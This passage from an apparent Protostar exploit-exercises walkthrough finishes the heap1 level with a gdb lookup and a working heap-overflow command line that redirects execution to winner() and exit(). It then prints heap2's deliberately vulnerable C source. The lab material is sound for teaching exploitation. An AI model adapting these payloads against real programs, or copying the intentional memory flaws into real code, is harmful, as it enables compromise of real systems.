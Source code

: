 We have successfully redirected control flow to the `winner()` function.
However, the program still has a segmentation fault since the `winner()`
function attempts to returns to `\x00\x00\x00\x00` due to `strcpy` writing a
terminating `NULL` byte.

What we can do is write another 4 bytes with the memory address of `exit()`,
which should make the program exit cleanly.

```shell
(gdb) print &exit
$1 = (<text variable, no debug info> *) 0xb7ec60c0 <*__GI_exit>
```

Putting it all together, we end up with the following.

```shell
user@protostar:~$ /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + '\x40\xf7\xff\xbf'"` `python -c "print '\x94\x84\x04\x08' * 8 + '\xc0\x60\xec\xb7'"`
and that's a wrap folks!
and we have a winner @ 1527638455
```

# heap 2

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;

      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
```

[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap